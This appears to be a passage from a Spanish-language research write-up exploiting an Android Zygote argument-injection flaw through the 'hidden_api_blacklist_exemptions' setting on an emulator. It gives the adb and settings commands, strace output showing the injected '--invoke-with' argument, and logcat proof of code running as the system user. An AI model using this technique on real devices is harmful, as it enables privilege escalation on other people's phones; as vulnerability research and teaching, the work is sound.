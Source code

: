 ```bash
adb push payload_1.txt /data/local/tmp/
```
&nbsp;
**Monitorear con `strace`**

Luego, antes de ejecutar el comando `settings put global ...`, en una terminal aparte podemos usar `strace` para ver lo que lee Zygote

Esto nos permitirá observar si Zygote interpreta nuestra _payload_ y si logra ejecutar el comando embebido.

Ya con todo listo, el comando para disparar la vulnerabilidad sería:

`settings put global hidden_api_blacklist_exemptions "$(cat /data/local/tmp/payload_1.txt)`

En la salida de `strace` podemos ver lo siguiente:

```
recvmsg(5, {msg_name=NULL, msg_namelen=0, msg_iov=[{iov_base="6\n--set-api-blacklist-exemptions\n\n\n\n\n\n8\n--setuid=1000\n--setgid=1000\n--runtime-args\n--seinfo=platform:privapp:targetSdkVersion=30:complete\n--runtime-flags=1\n--nice-name=zYg0te\n--invoke-with\n/system/bin/logwrapper echo zYg0te $(id); #\n\n\n\n\nX\n", iov_len=8192}], msg_iovlen=1, msg_controllen=0, msg_flags=MSG_CMSG_CLOEXEC}, MSG_CTRUNC|MSG_TRUNC|MSG_NOSIGNAL|MSG_CMSG_CLOEXEC) = 239
--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=6644, si_uid=1000, si_status=0, si_utime=1, si_stime=0} ---
```
&nbsp;
¡Wow! Vemos que efectivamente a Zygote le entró nuestro comando. Además, podemos notar que el _system server_ colocó un "6" en el conteo de argumentos para el cambio de `hidden_api_blacklist_exemptions`, luego aparece una línea en blanco ("\n") y después la directriz "--set-api-blacklist-exemptions". 

Después vienen seis líneas en blanco, cinco de las cuales corresponden a las que están en el archivo con la _payload_, y finalmente el número 8, que es el inicio de nuestro comando inyectado.

Todo parece correcto, pero si intentamos revisar `logcat` para ver la salida del comando con:

`logcat | grep zYg0te`

no sucede nada, no aparece nada. Además, si vamos a la pantalla del teléfono en el emulador, las aplicaciones no funcionan y el teléfono queda inusable.

Afortunadamente, hemos leído varias veces todas las referencias públicas sobre esta vulnerabilidad y en una de ellas, en algún comentario, alguien menciona que es importante remover `hidden_api_blacklist_exemptions` o esto pasará. Nosotros simplemente pondremos su valor en "null" y veremos qué sucede. 

Al final, todo el proceso se vería así:
```bash
$ adb push payload_1.txt /data/local/tmp/
$ adb shell
generic_x86_arm:/ $ settings put global hidden_api_blacklist_exemptions "$(cat /data/local/tmp/payload_1.txt)"
generic_x86_arm:/ $ settings put global hidden_api_blacklist_exemptions null 
generic_x86_arm:/ $ logcat | grep zYg0te 
04-15 19:27:35.810  5578  5578 W zYg0te  : Unexpected CPU variant for X86 using defaults: x86
04-15 19:27:35.829  5597  5597 I echo    : zYg0te uid=1000(system) gid=1000(system) groups=1000(system),1065(reserved_disk),3009(readproc) context=u:r:system_app:s0
^C
130|generic_x86_arm:/ $ 
```
&nbsp;
¡Ahí está! El comando se ejecutó y podemos ver claramente que se ejecutó como _system_. Her-mo-so.
